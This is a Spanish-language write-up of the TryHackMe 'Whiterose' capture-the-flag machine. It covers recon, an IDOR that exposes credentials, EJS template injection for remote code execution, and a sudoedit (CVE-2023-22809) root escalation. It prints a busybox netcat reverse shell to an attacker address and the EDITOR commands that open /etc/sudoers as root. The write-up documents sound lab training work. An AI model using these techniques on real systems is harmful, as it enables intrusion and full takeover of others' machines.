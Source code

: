 ```yaml
---
title: Whiterose TryHackMe Writeup
tags: [writeup, tryhackme, IDOR, EJS, CVE-2023-22809, sudoedit]
style: border
color: success
description: ""
---
```


![logo](../assets/img/whiterose-tryhackme-writeup/GbKP4d8WsAA6Aul.png)

## Reconocimiento
La máquina está basada en un capítulo de la serie [**Mr.Robot**](https://es.wikipedia.org/wiki/Mr._Robot), empezamos con unas credenciales, pero no sabemos dónde las podemos utilizar:
![](../assets/img/whiterose-tryhackme-writeup/3.png)

Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC --min-rate 5000 10.10.15.196 -Pn -n -oN nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 14:42 CET
Nmap scan report for 10.10.15.196
Host is up (0.054s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
507/tcp   filtered crs
40348/tcp filtered unknown
54689/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si intentamos acceder con la dirección IP por el puerto 80, nos redirecciona al dominio *cyprusbank.thm*, metemos el dominio en el fichero *hosts* y podremos observar la web del Banco Nacional de Chipre en modo mantenimiento:
![](../assets/img/whiterose-tryhackme-writeup/3.png)

Probamos a fuzzear con **dirsearch**, pero no encontramos nada, seguidamente lanzamos **wfuzz** para enumerar posibles subdominios y logramos enumerar un panel administrativo:
```
> wfuzz -c --hw 3 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cyprusbank.thm" cyprusbank.thm

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cyprusbank.thm/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000001:   200        8 L      24 W       252 Ch      "www"                                                                                                                     
000000024:   302        0 L      4 W        28 Ch       "admin"
```

Metemos el nuevo subdominio en el fichero hosts, accedemos a él y enumeramos el panel de administración del Banco Nacional de Chipre:
![](../assets/img/whiterose-tryhackme-writeup/2.png)

Utilizamos las credenciales aportadas por el reto, son válidas, vemos que la cuenta del usuario está bien llena de *dinerito*, también se aprecia varios pagos recibidos por diferentes personas:
![](../assets/img/whiterose-tryhackme-writeup/4.png)

Los teléfonos aparecen ofuscados, tampoco tenemos acceso al apartado *Settings*:
![](../assets/img/whiterose-tryhackme-writeup/5.png)


## Explotación
Identificamos una especie de *LLM* (chatbot) o sistema de mensajería no funcional en el apartado *Messages*, nos llama mucho la atención la exposición del identificador a través del parámetro "*c*", ya que podría tener fallos de autorización y conseguir explotar un *IDOR*:
![](../assets/img/whiterose-tryhackme-writeup/6.png)

Hacemos una prueba de concepto, sustituyendo el valor "*5*" por "*1*", y parece que logramos explotar el *IDOR*:
![](../assets/img/whiterose-tryhackme-writeup/7.png)

Tras varias pruebas de fuzzing sobre el parámetro "*c*", logramos recuperar unas credenciales del usuario *Gayle Bev*:
![](../assets/img/whiterose-tryhackme-writeup/8.png)

Nos autenticamos con las credenciales de *Gayle*, ahora si es posible visualizar los teléfonos, señal que tenemos a un usuario con más privilegios:
![](../assets/img/whiterose-tryhackme-writeup/9.png)

Aunque no era parte del reto, me pareció simpático que incluyeran en la lista a *Amancio Ortega*, os dejo su teléfono por si le queréis pedir *Bizum* (será por dinero!)
![](../assets/img/whiterose-tryhackme-writeup/10.png)

Con este usuario si que logramos acceder a la zona de *Settings*, por lo que diría que el siguiente paso es explotar algunos de los siguientes campos:
![](../assets/img/whiterose-tryhackme-writeup/11.png)

Intentamos diferentes ataques de inyección de código *SQL* y *JavaScript*, en uno de ellos logramos ver que el siguiente error, donde nos muestra el fichero "*settings.ejs*":
![](../assets/img/whiterose-tryhackme-writeup/13.png)

Buscamos información y exploits para *EJS* y encontramos este:
- [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

Intentamos hacer la prueba de concepto sobre el campo *password*, vemos que la aplicación explota, pero intenta ejecutar el **netcat** sin éxito:
![](../assets/img/whiterose-tryhackme-writeup/14.png)

Utilizamos **busybox** por **netcat** y conseguimos explotar la vulnerabilidad con éxito y obtener una conexión con la máquina remota:
```
busybox nc 10.XX.XX.XX 443 -e /bin/bash
```
![](../assets/img/whiterose-tryhackme-writeup/15.png)

Tras varios directorios recursivos, identificamos el fichero *user.txt* con la flag.
```
web@cyprusbank:~$ cat user.txt      cat user.txt
cat user.txt
THM{*********************}
web@cyprusbank:~$ 
```


## Escalada de privilegios
Ejecutamos "*sudo -l*", vemos que nuestro usuario puede impersonar al usuario root sin contraseña para ejecutar *sudoedit* sobre un fichero de configuración web de **Nginx**:
```
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~$ 
```

Buscamos por Internet, encontramos varios artículos relacionados y exploits, podemos utilizar la siguiente documentación y exploit para lograr la explotación:
- [https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh](https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh)
- [https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

#### Explotación
El exploit no funciona al 100%, pero nos ayuda a identificar que la máquina es explotable por esta técnica y que tendremos que ejecutar la explotación de forma manual:
```
web@cyprusbank:/tmp$ ./exploit.sh         ./exploit.sh
./exploit.sh
> BINGO! User exploitable
> Opening sudoers file, please add the following line to the file in order to do the privesc:
web ALL=(ALL:ALL) ALL
Press any key to continue..
```

Vemos el código fuente, vemos que almacena en la variable de entorno *EDITOR* la línea de **vim** apuntando al fichero *sudoers*, posteriormente se debería de lograr abrir con el usuario privilegiado y añadir la línea con todos los permisos.
![](../assets/img/whiterose-tryhackme-writeup/16.png)

En nuestro caso el escenario es diferente, pero explotable ;), ejecutamos los siguientes comandos para lograr la apertura del fichero como root:
```
EDITOR="vim -- /etc/sudoers"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Insertamos la línea, pero además añadimos "*NOPASSWD: ALL*", para evitar escribir la contraseña, guardamos y salimos del fichero:
![](../assets/img/whiterose-tryhackme-writeup/17.png)

Para finalizar, comprobamos que ya podemos ejecutar cualquier comando con con cualquier usuario, ejecutamos una **bash** como root, conseguimos escalar privilegios y leer la última flag:
```
web@cyprusbank:~/app$ sudo -l

User web may run the following commands on cyprusbank:
    (ALL : ALL) NOPASSWD: ALL
web@cyprusbank:~/app$ sudo -u root /bin/bash
root@cyprusbank:/home/web/app# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:/home/web/app# ls -lna /root
total 40
drwx------  6 0 0 4096 Apr  4  2024 .
drwxr-xr-x 23 0 0 4096 Jul 12  2023 ..
lrwxrwxrwx  1 0 0    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 0 0 3106 Apr  9  2018 .bashrc
drwx------  2 0 0 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 0 0  156 Apr  4  2024 clean.sh
drwx------  3 0 0 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 0 0 4096 Jul 16  2023 .local
drwxr-xr-x  5 0 0 4096 Apr  4  2024 .pm2
-rw-r--r--  1 0 0  148 Aug 17  2015 .profile
-rw-r--r--  1 0 0   21 Jul 15  2023 root.txt
root@cyprusbank:/home/web/app# cat /root/root.txt
THM{**************}
root@cyprusbank:/home/web/app# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!